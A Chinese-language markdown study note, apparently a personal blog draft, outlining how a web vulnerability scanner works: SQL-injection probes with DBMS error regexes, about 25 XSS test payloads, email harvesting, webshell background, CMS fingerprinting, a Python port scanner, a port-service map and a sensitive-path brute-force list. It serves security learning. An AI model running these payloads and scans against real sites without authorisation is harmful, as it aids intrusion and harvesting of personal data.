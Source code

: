 ```yaml
---
title: "0.md"
date: 2019-09-29 19:29:06 +0800
lastmod: 2019-09-29 19:29:06 +0800
draft: true
tags: [""]
categories: [""]
author: "Claymore"

---
```

学习参考：<https://www.shiyanlou.com/courses/761>

记录一些检测web攻击的思路



### sql注入检查

request 库。

通过在url 后面加上 `AND %d=%d` 或者 `OR NOT (%d>%d)`

拼接url，输出用正则匹：

```
"MySQL": (r"SQL syntax.*MySQL", r"Warning.*mysql_.*", r"valid MySQL result", r"MySqlClient\."),
    "PostgreSQL": (r"PostgreSQL.*ERROR", r"Warning.*\Wpg_.*", r"valid PostgreSQL result", r"Npgsql\."),
    "Microsoft SQL Server": (r"Driver.* SQL[\-\_\ ]*Server", r"OLE DB.* SQL Server", r"(\W|\A)SQL Server.*Driver", r"Warning.*mssql_.*", r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}", r"(?s)Exception.*\WSystem\.Data\.SqlClient\.", r"(?s)Exception.*\WRoadhouse\.Cms\."),
    "Microsoft Access": (r"Microsoft Access Driver", r"JET Database Engine", r"Access Database Engine"),
    "Oracle": (r"\bORA-[0-9][0-9][0-9][0-9]", r"Oracle error", r"Oracle.*Driver", r"Warning.*\Woci_.*", r"Warning.*\Wora_.*"),
    "IBM DB2": (r"CLI Driver.*DB2", r"DB2 SQL error", r"\bdb2_\w+\("),
    "SQLite": (r"SQLite/JDBCDriver", r"SQLite.Exception", r"System.Data.SQLite.SQLiteException", r"Warning.*sqlite_.*", r"Warning.*SQLite3::", r"\[SQLITE_ERROR\]"),
    "Sybase": (r"(?i)Warning.*sybase.*", r"Sybase message", r"Sybase.*Server message.*"),
```



### 收集E-mail

在页面上搜索各种链接：如a标签，herf属性，收集 后，也是用正则匹配：`([\w-]+@[\w-]+\.[\w-]+)+`



### XSS检测

通过一些xss的payload加入到url参数中，然后查找url的源码中是否存在这个参数，

playload:

```
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>
```





### webshell

Webshell是web入侵的脚本攻击工具，简单的说来，webshell就是一个asp或php木马后门，黑客在入侵了一个网站后，常常在将这些asp或php木马后门文件放置在网站服务器的web目录中，与正常的网页文件混在一起。

一般是通过http的put方式去放入。



### CMS

CMS英文全称是：Content Management System 中文名称是： 网站内容管理系统 CMS识别原理

就是得到一些CMS的一些固有特征，通过得到这个特征来判断CMS的类别。
这里我们使用MD5识别和正则表达式识别的方式，就是用特定的文件路径访问网站，获得这个文件的MD5或者用正则表达式匹配某个关键词，如果匹配成功就说明这个是这个CMS。
所以，这个识别的成功率是根据我们的字典来的：

```
{
    "url": "/tpl/green/common/images/notebg.jpg",
    "re": "",
    "name": "自动发卡平台",
    "md5": "690f337298c331f217c0407cc11620e9"
},
{
    "url": "/images/download.png",
    "re": "",
    "name": "全程oa",
    "md5": "9921660baaf9e0b3b747266eb5af880f"
}
```

可看这里有一些特征表现。



#### web指纹

web指纹识别的核心原理是通过正则表达式匹配特征码或匹配文件的md5值等特殊信息，进而识别web应用程序的名称和版本，收集信息。

开拓思路可以使用模糊hash来搞。这里和的指纹在上方的字典中有体现。



### 端口扫描

TCP端口扫描一般分为以下几种类型：

1. TCP connect扫描：也称为全连接扫描，这种方式直接连接到目标端口，完成了TCP三次握手的过程，这种方式扫描结果比较准确，但速度比较慢而且可轻易被目标系统检测到。
2. TCP SYN扫描：也称为半开放扫描，这种方式将发送一个SYN包，启动一个TCP会话，并等待目标响应数据包。如果收到的是一个RST包，则表明端口是关闭的，而如果收到的是一个SYN/ACK包，则表示相应的端口是打开的。
3. Tcp FIN扫描：这种方式发送一个表示拆除一个活动的TCP连接的FIN包，让对方关闭连接。如果收到了一个RST包，则表明相应的端口是关闭的。
4. TCP XMAS扫描：这种方式通过发送PSH、FIN、URG、和TCP标志位被设为1的数据包。如果收到了一个RST包，则表明相应的端口是关闭的。

```python
 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
 s.settimeout(1) 
 try:
 	s.connect((self.ip, port))
    print "%s:%s OPEN [%s]"%(self.ip,port,self.PORT[port])
 except:
    print "%s:%s Close"%(self.ip,port)
 finally:
    s.close()
```



对应端口服务：

```
{80:"web",8080:"web",3311:"kangle",3312:"kangle",3389:"mstsc",4440:"rundeck",5672:"rabbitMQ",5900:"vnc",6082:"varnish",7001:"weblogic",8161:"activeMQ",8649:"ganglia",9000:"fastcgi",9090:"ibm",9200:"elasticsearch",9300:"elasticsearch",9999:"amg",10050:"zabbix",11211:"memcache",27017:"mongodb",28017:"mondodb",3777:"dahua jiankong",50000:"sap netweaver",50060:"hadoop",50070:"hadoop",21:"ftp",22:"ssh",23:"telnet",25:"smtp",53:"dns",123:"ntp",161:"snmp",8161:"snmp",162:"snmp",389:"ldap",443:"ssl",512:"rlogin",513:"rlogin",873:"rsync",1433:"mssql",1080:"socks",1521:"oracle",1900:"bes",2049:"nfs",2601:"zebra",2604:"zebra",2082:"cpanle",2083:"cpanle",3128:"squid",3312:"squid",3306:"mysql",4899:"radmin",8834:'nessus',4848:'glashfish'}
```



### 敏感目录爆破

就是在url路径后添加一些路径，看http返回的状态码，如果200则证明存在，一些敏感路径：

```
/database
/db
/dbase
/devel
/files
/forum
/programs
/set
/setting
/sources
/Stats
/usage
/weblog
/weblogs
...
```



### CDN 检测

CDN的全称是Content Delivery Network，即内容分发网络。其基本思路是尽可能避开互联网上有可能影响数据传输速度和稳定性的瓶颈和环节，使内容传输的更快、更稳定。通过在网络各处放置节点服务器所构成的在现有的互联网基础之上的一层智能虚拟网络，CDN系统能够实时地根据网络流量和各节点的连接、负载状况以及到用户的距离和响应时间等综合信息将用户的请求重新导向离用户最近的服务节点上。其目的是使用户可就近取得所需内容，解决 Internet网络拥挤的状况，提高用户访问网站的响应速度。

如何检测？

我们用各地的服务器测试这个网站，如果各地得到的是不同的IP，则说明网站用了CDN。